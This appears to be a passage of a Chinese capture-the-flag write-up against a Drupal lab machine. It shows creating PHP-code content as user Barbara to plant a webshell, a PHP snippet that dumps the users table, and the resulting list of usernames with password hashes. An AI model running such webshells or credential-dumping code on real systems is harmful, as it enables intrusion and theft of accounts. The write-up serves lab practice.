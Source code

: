 ![img](ctf8/images/image-3.png)

然后发现Barbara可以create content
在下面可以选择以phpcode的形式
写一个webshell 蚁剑连
然而发现这个shell没啥用 ls都没有

看wp... 查询drupal的数据库...

```php
<?php
$result = db_query('sql');
while($test = db_fetch_object($result))
{
print $test->name . ":" . $test->pass . "<br/>";
}
```

```php
<?php
$result = db_query('select name,pass from users');
while($test = db_fetch_object($result))
{
print $test->name . ":" . $test->pass . "<br/>";
}
?>
```

得到
```
admin:49265c16d1dff8acef3499bd889299d6
Barbara:bed128365216c019988915ed3add75fb
Jim:2a5de0f53b1317f7e36afcdb6b5202a4
Steve:08d15a4aef553492d8971cdd5198f314
Sherry:c3319d1016a802db86653bcfab871f4f
Gene:9b9e4bbd988954028a44710a50982576
Harvey:7d29975b78825ea7c27f5c0281ea2fa4
John:518462cd3292a67c755521c1fb50c909
Johnathan:6dc523ebd2379d96cc0af32e2d224db0
Susan:0d42223010b69cab86634bc359ed870b
Dan:8f75ad3f04fc42f07c95e2f3d0ec3503
George:ed2b1f468c5f915f3f1cf75d7068baae
Jeff:ca594f739e257245f2be69eb546c1c04
Stacey:85aca385eb555fb6a36a62915ddd8bc7
Juan:573152cc51de19df50e90b0e557db7fe
Michael:c7a4476fc64b75ead800da9ea2b7d072
Jerome:42248d4cb640a3fb5836571e254aee2b
```